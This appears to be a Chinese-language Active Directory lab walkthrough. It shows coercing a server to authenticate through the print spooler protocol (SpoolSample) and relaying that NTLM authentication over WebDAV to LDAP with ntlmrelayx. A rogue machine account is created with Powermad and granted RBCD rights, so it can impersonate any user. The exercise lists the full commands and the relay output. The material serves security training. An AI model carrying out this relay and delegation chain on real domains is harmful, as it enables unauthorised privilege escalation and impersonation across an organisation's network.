




# Exercise 3 - Coerced Authentication and NTLM Relay

## Preparations

在AD-01安裝 Webclient service，以支援WebDav Client功能

```powershell
Install-WindowsFeature WebDAV-Redirector
```

- 重啟後，使用以下腳本讓WEBDAV開機時自動啟動

```powershell
Get-Service mrxdav,webclient | Set-Service -StartupType Automatic
```

- 使用以下腳本確認服務是否開啟

```powershell
start-service mrxdav,webclient
get-service mrxdav,webclient
```

WebDav通常預設不會再Sever上安裝，但是Desktop版本的作業系統通常會預設安裝(如Onedrive就有此功能)，故實務上使用WEBDAV做NTLM Relay是可行的。

## Tools

使用工具如下:

- Impacket: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
- Powermad: [https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

## Theory

本練習利用微軟MS-RPRN(印表機)協定的設計缺陷，強制AD-01使用Computer account(AD-01$)對AD-01發起NTLM驗證，並將該驗證Relay到AD-DC上，執行RDBC委派(為後續內容)，並讓我們創建的computer account **$evilpc** 對AD-01有RDBC權限，可偽冒 **任意使用者** 使用AD-01上的 **任意服務**

### NTLM 驗證



### NTLM Relay場景



### PRPN Problem

- MSRPRN:拿來控制windows印表機共用的協定
    - 角色:
        - 客戶端(Client)
        - 共用印表機的電腦(Printer Server)
        - 印表機
    - Client:可管理Printer Server新增印表機及驅動等動作
    - **Client可要求Printer Server對印表機變動時自動通知Client**



### UNC Path and WebDav



## Exercise

本攻擊包含以下步驟

1) 創建新computer account evilpc
2) 在AD-00設定NTLM-Relay Server
3) 使用MS-RPRC協定觸發AD-01向AD-00發起認證

### Create a new computer account

為了實作kerberos delegation此處需先創建一個computer account **evilpc**，在實驗六會在詳細解釋原理。

```powershell
cd C:\attacker-tools\
cat -raw .\Powermad.ps1 | iex
New-MachineAccount -MachineAccount evilpc -Password (ConvertTo-SecureString -String "EvilPassword1" -AsPlainText -Force)
```

### Set up a ntlm relay server

使用ntlmrelayx.py工具，在AD-00發起一個NTLM relay server

```powershell
ntlmrelayx.py --no-smb-server --delegate-access --escalate-user evilpc$ -t ldap://ad-dc.contoso.com
```

- **--no-smb-server**:不發起SMB Server，因為此處是使用WEBDAV服務(HTTP)作為NTLM的載體。

- **--delegate-access**:定義在ntlm relay後，要向ad-dc變更AD-01的RBCD權限

 - **--escalate-user evilpc$** 使$evilpc擁有AD-01的RBCD權限。

 - **-t ldap://ad-dc.contoso.com** 定義ntlm relay的目標，此處為使用ldap協議向ad-dc發起RBCD的權限變更。

NTLM為一個內嵌的認證協議，實際上可運用在HTTP、LDAP以及SMB等常見的windows內網協定上。

### 使用MS-RPRC協定觸發驗證

使用SpoolSample.exe使用MS-RPRC協定觸發ad-01向ad-00發起WEBDAV(HTTP)的NTLM協定。

```
 .\SpoolSample.exe ad-01 ad-00@80/foobar
```

**UNC Path格式如下**:
- \\\ad-00 =>發起SMB認證
- \\\ad-00@80 => 對80 port 發起webdav認證


- 如果攻擊成功將會在ad-00的NTLM relay的程式視窗看到以下結果: 

```
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Delegation rights modified succesfully!
[*] evilpc$ can now impersonate users on ADSEC-01$ via S4U2Proxy
```

使用 PowerView 可查看 ad-01成功對evil-pc這個computer account授予RBCD權限。

```powershell
cat -raw ".\PowerView.ps1" | iex
Get-DomainComputer ad-01 | select msds-allowedtoactonbehalfofotheridentity

#取得RBCD的RawData
$RawBytes = Get-DomainComputer ad-01 | select -expand msds-allowedtoactonbehalfofotheridentity


#轉換為 sid
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl

#將sid轉換為可辨識的帳號 sid為上一步取得
ConvertFrom-Sid sid

```